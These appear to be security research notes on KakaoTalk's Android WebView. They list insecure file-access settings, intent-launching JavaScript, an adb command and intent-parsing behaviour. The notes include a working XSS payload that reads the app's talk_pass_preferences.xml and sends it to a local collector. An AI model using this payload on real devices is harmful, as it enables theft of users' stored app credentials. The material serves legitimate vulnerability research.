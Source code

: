 One-liner:

```javascript
<img src=1 onerror=\" var x = new XMLHttpRequest(); x.onreadystatechange = function() { if (this.readyState == 4) { img = new Image(); img.src = 'http://localhost:8000?data=' + encodeURIComponent(this.responseText); } }; x.open('GET', 'file:////data/user/0/com.kakao.talk/shared_prefs/talk_pass_preferences.xml', true); x.send(); \"/>
```

### KGPopupActivity

- `KGPopupActivity` (`kakaotalk://gamecenter`)
- `webViewSettings.setAllowFileAccessFromFileURLs(true);`
- `webViewSettings.setAllowUniversalAccessFromFileURLs(true);`
- Intent scheme allowed (but compontent and selector are set to null)
- There are `KG`, `Kakao` and `kakaoweb` JS APIs
- JavaScript-Native Bridge
  - `Gametab.api("talk/toolbar/show", '', '');` —> defined in class `KGWebViewCommands`
- Key for Kakaotalk JavaScript SDK: `8fa1ffbc074c716c201ce0074d5f798e`

Send intents in JS:

```javascript
// Open Game Center (KGPopupActivity)
location.href = "intent://gamecenter#Intent;scheme=kakaotalk;end";
// Open Music Player
location.href = "intent:#Intent;action=com.kakao.talk.intent.action.OPEN_MUSIC_PLAYER;end"
// Open any URL in KakaoTalk browser
location.href = "intent:#Intent;action=foo;S.browser_fallback_url=https://foo.com;end"
```

Via ADB:

```bash
# Open Gift Store
adb shell am start "intent:#Intent\;component=com.kakao.talk/.commerce.ui.gift.CommerceGiftActivity\;end"
```

`intent:` parsing observations:
- Intent scheme parsing happening in `URIController.d` method
  - `parseUri.addCategory("android.intent.category.BROWSABLE");`
  - `parseUri.setSelector(null);`
  - `parseUri.setComponent(null);`
  - `action` is allowed
  - `package` opens the Playstore
  - `data` part is parsed for `http` and `https` schemes
  - malformed `intent://` URL -> `"about:blank"` WebView
  - `component=null` -> Google Settings Backup Activity

  ## Resources

- [CORS and WebView API](https://chromium.googlesource.com/chromium/src/+/HEAD/android_webview/docs/cors-and-webview-api.md)
- [Intent Scheme](https://www.mbsd.jp/Whitepaper/IntentScheme.pdf)
- [Defcon WebView Training](https://media.defcon.org/DEF%20CON%2026/DEF%20CON%2026%20workshops/DEF%20CON%2026%20-%20Workshop-David-Turco-and-Jon-Overgaard-Christiansen-Wheres-My-Browser-Learn-Hacking-iOS-and-Android-WebViews.pdf)
- [Android security checklist: WebView](https://blog.oversecured.com/Android-security-checklist-webview/)
- [Reviewing Android Webviews fileAccess attack vectors](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)